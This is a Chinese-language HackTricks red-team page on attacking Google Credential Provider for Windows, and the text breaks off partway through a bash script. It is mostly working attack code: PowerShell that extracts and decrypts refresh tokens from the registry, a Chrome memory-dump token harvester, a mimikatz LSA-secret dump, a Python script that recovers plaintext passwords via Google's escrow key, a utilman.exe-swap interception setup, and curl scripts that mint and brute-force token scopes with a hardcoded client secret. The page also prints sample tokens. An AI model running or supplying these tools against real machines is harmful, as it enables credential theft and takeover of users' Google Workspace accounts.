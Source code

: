 # GWS - Workspace Sync Attacks (GCPW, GCDS, Directory Sync with AD & EntraID)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## GCPW - Google Credential Provider for Windows

这是 Google Workspace 提供的单点登录，用户可以使用 **他们的 Workspace 凭据** 登录 Windows PC。此外，这将会在 PC 的某些地方存储访问 Google Workspace 的令牌。

{% hint style="success" %}
请注意 [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) 能够检测 **GCPW**，获取有关配置的信息，甚至 **令牌**。
{% endhint %}

### GCPW - MitM

当用户通过 GCPW 访问与 Google Workspace 同步的 Windows PC 时，需要完成一个常见的登录表单。该登录表单将返回一个 OAuth 代码，PC 将用该代码交换刷新令牌，请求如下：

{% code overflow="wrap" %}
```http
POST /oauth2/v4/token HTTP/2
Host: www.googleapis.com
Content-Length: 311
Content-Type: application/x-www-form-urlencoded
[...headers...]

scope=https://www.google.com/accounts/OAuthLogin
&grant_type=authorization_code
&client_id=77185425430.apps.googleusercontent.com
&client_secret=OTJgUOQcT7lO7GsGZq2G4IlT
&code=4/0AVG7fiQ1NKncRzNrrGjY5S02wBWBJxV9kUNSKvB1EnJDCWyDmfZvelqKp0zx8jRGmR7LUw
&device_id=d5c82f70-71ff-48e8-94db-312e64c7354f
&device_type=chrome
```
{% endcode %}

新行已添加以提高可读性。

{% hint style="info" %}
可以通过在PC上安装`Proxifier`，用`cmd.exe`覆盖`utilman.exe`二进制文件，并在Windows登录页面执行**辅助功能**，从而执行**CMD**，以**启动和配置Proxifier**，从而执行中间人攻击。\
不要忘记在`Proxifier`中**阻止QUICK UDP**流量，以便降级为TCP通信，这样你就可以看到它。

还要在“服务和其他用户”中配置两个选项，并在Windows中安装Burp CA证书。
{% endhint %}

此外，在**`HKLM:\SOFTWARE\Google\GCPW`**中添加键`enable_verbose_logging = 1`和`log_file_path = C:\Public\gcpw.log`可以使其存储一些日志。

### GCPW - 指纹

可以通过检查以下进程是否存在或以下注册表键是否存在来检查设备上是否安装了GCPW：
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
在 **`HKCU:\SOFTWARE\Google\Accounts`** 中，可以访问用户的电子邮件和加密的 **refresh token**，如果用户最近登录过。

在 **`HKLM:\SOFTWARE\Google\GCPW\Users`** 中，可以在键 `domains_allowed` 中找到允许登录的 **domains**，在子键中可以找到有关用户的信息，如电子邮件、头像、用户名、令牌生命周期、令牌句柄...

{% hint style="info" %}
令牌句柄是一个以 `eth.` 开头的令牌，可以通过请求提取一些信息，例如：

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'token_handle=eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg'
# Example response
{
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 12880152
}
```
{% endcode %}

还可以通过以下请求找到访问令牌的令牌句柄：

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'access_token=<access token>'
# Example response
{
"issued_to": "77185425430.apps.googleusercontent.com",
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 1327,
"access_type": "offline",
"token_handle": "eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg"
}
```
{% endcode %}

据我所知，从令牌句柄中获取刷新令牌或访问令牌是不可能的。
{% endhint %}

此外，文件 **`C:\ProgramData\Google\Credential Provider\Policies\<sid>\PolicyFetchResponse`** 是一个包含不同 **设置** 信息的 json，如 `enableDmEnrollment`、`enableGcpAutoUpdate`、`enableMultiUserLogin`（如果多个 Workspace 用户可以登录计算机）和 `validityPeriodDays`（用户无需直接与 Google 重新认证的天数）。

### GCPW - 注册表刷新令牌

在注册表 **`HKCU:\SOFTWARE\Google\Accounts`** 中，可能会找到一些带有加密的 **`refresh_token`** 的帐户。方法 **`ProtectedData.Unprotect`** 可以轻松解密它。

<details>

<summary>获取 <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> 数据并解密 refresh_tokens</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

示例输出：

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

如[**此视频**](https://www.youtube.com/watch?v=FEQxHRRP\_5I)所述，如果在注册表中找不到令牌，可以修改**`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`**中的值（或删除），下次用户访问计算机时，他将需要重新登录，并且**令牌将存储在之前的注册表中**。

### GCPW - 磁盘刷新令牌

文件**`%LocalAppData%\Google\Chrome\User Data\Local State`**存储解密**`refresh_tokens`**的密钥，这些令牌位于用户的**Google Chrome 配置文件**中，如：

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

可以在[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)中找到一些**C#代码**，以解密的方式访问这些令牌。

此外，关于加密的内容可以在此代码中找到：[https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

可以观察到使用了AESGCM，加密令牌以**版本**（此时为**`v10`**）开头，然后是[**12B的nonce**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42)，接着是**密文**，最后是**16B的mac**。

### GCPW - 从进程内存中转储令牌

以下脚本可用于**转储**每个**Chrome**进程，使用`procdump`提取**字符串**，然后**搜索**与**访问和刷新令牌**相关的字符串。如果Chrome连接到某个Google网站，则某些**进程将会在内存中存储刷新和/或访问令牌！**

<details>

<summary>转储Chrome进程并搜索令牌</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

我用 `gcpw_extension.exe` 尝试了同样的操作，但没有找到任何令牌。

出于某种原因，**一些提取的访问令牌将无效（尽管有些是有效的）**。我尝试了以下脚本逐个删除字符，以尝试从转储中获取有效令牌。它从未帮助我找到有效的令牌，但我想它可能有用：

<details>

<summary>逐个删除字符检查访问令牌</summary>
```bash
#!/bin/bash

# Define the initial access token
access_token="ya29.a0AcM612wWX6Pe3Pc6ApZYknGs5n66W1Hr1CQvF_L_pIm3uZaXWisWFabzxheYCHErRn28l2UOJuAbMzfn1TUpSKqvYvlhXJpxQsKEtwhYXzN2BZdOQNji0EXfF7po1_0WaxhwqOiE0CFQciiL8uAmkRsoXhq9ekC_S8xLrODZ2yKdDR6gSFULWaiIG-bOCFx3DkbOdbjAk-U4aN1WbglUAJdLZh7DMzSucIIZwKWvBxqqajSAjrdW0mRNVN2IfkcVLPndwj7fQJV2bQaCgYKAbQSAQ4SFQHGX2MiPuU1D-9-YHVzaFlUo_RwXA0277"

# Define the URL for the request
url="https://www.googleapis.com/oauth2/v1/tokeninfo"

# Loop until the token is 20 characters or the response doesn't contain "error_description"
while [ ${#access_token} -gt 20 ]; do
# Make the request and capture the response
response=$(curl -s -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=$access_token" $url)

# Check if the response contains "error_description"
if [[ ! "$response" =~ "error_description" ]]; then
echo "Success: Token is valid"
echo "Final token: $access_token"
echo "Response: $response"
exit 0
fi

# Remove the last character from the token
access_token=${access_token:0:-1}

echo "Token length: ${#access_token}"
done

echo "Error: Token invalid or too short"
```
</details>

### GCPW - 恢复明文密码

要利用 GCPW 恢复密码的明文，可以使用 **mimikatz** 从 **LSASS** 中转储加密密码：
```bash
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
然后搜索像 `Chrome-GCPW-<sid>` 的秘密，如图所示：

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

然后，使用具有范围 `https://www.google.com/accounts/OAuthLogin` 的 **访问令牌**，可以请求私钥以解密密码：

<details>

<summary>脚本以获取明文密码，给定访问令牌、加密密码和资源 ID</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

在Chromium源代码中可以找到其关键组件：

* API域： [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* API端点： [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)

### GCPW - 从刷新令牌生成访问令牌

使用刷新令牌，可以使用它以及以下命令中指定的客户端ID和客户端密钥生成访问令牌：
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - 范围

{% hint style="info" %}
请注意，即使拥有刷新令牌，也无法请求访问令牌的任何范围，因为您只能请求**由生成访问令牌的应用程序支持的范围**。

此外，刷新令牌在每个应用程序中都不是有效的。
{% endhint %}

默认情况下，GCPW 作为用户不会访问所有可能的 OAuth 范围，因此使用以下脚本，我们可以找到可以与 `refresh_token` 一起使用以生成 `access_token` 的范围：

<details>

<summary>用于暴力破解范围的 Bash 脚本</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

这是我在撰写时得到的输出：
```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
```
此外，通过检查Chromium源代码，可以[**找到这个文件**](https://github.com/chromium/chromium/blob/5301790cd7ef97088d4862465822da4cb2d95591/google\_apis/gaia/gaia\_constants.cc#L24)，该文件包含**其他范围**，可以假设**在之前的暴力破解列表中没有出现**。因此，可以假设这些额外的范围：

<details>

<summary>额外范围</summary>
```
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/aidahttps://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome
```
</details>

请注意，最有趣的可能是：
```c
// OAuth2 scope for access to all Google APIs.
const char kAnyApiOAuth2Scope[] = "https://www.googleapis.com/auth/any-api";
```
然而，我尝试使用这个范围访问gmail或列出组，但没有成功，所以我不知道它还有多大用处。

**获取具有所有这些范围的访问令牌**：

<details>

<summary>用于从refresh_token生成具有所有范围的访问令牌的Bash脚本</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
